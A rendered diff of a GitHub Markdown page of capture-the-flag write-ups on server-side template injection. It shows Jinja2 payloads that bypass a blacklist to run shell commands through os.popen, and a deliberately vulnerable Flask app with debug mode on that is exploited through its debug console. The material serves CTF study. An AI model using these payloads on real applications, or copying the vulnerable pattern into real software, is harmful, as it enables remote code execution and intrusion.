

Before and after one commit to poorvi1910/Web, a Markdown page: challenges/SSTI_10_challs.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/challenges/SSTI_10_challs.md
+++ b/challenges/SSTI_10_challs.md
@@ -97,4 +97,28 @@ Approach:
   - we need to us an empty space between the blacklisted strings: ```cycler['__in' 'it__']['__glo' 'bals__']['os']['popen']('id')['rea' 'd']()```
   - The only problem here, is that we’re exceeding the length limit. Solution was using lipsum.: ```lipsum['__glo' 'bals__']['os']['popen']('tail /flag')['re' 'ad']()```
 
-- ##
+- ## Imaginary CTF (Almost SSTI)
+The inteersting thing here was that payload ccould only be 2 bytes long
+```
+#!/usr/bin/env python3
+
+from flask import Flask, render_template_string, request, Response
+
+app = Flask(__name__)
+
+@app.route('/')
+def index():
+    return Response(open(__file__).read(), mimetype='text/plain')
+
+@app.route('/ssti')
+def ssti():
+    query = request.args['query']
+    if len(query) > 2:
+        return "Too long!"
+    return render_template_string(query)
+
+app.run('0.0.0.0', 3002, debug=True)
+```
+The only thing we can do is cause an error with {{
+Since debug mode is enabled, we can open a Python interactive console on this page (clicking on the console icon button). So we have Remote Code Execution and thus can read the flag:
+![image](https://github.com/poorvi1910/Web/assets/146640913/82f46e42-f033-418d-815b-86f5583a3949)
````
